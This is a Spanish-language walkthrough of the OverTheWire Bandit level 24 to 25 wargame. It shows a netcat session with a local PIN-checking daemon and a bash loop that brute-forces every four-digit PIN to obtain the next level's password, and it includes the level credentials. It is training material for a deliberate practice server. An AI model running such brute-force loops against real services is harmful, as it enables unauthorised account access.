 ## Bandit Level 24 → Level 25
## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
```
bandit24 - VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Solución
```cmd
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,
separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v
Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single
line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.
```
## Notas adicionales
- para crear secuencias en linux podria utilizar: for i in {0000..0010};
- more sirve para mostrar lo que cabe en la pantalla, da otra tecla y aparece lo demas
- 
## Referencias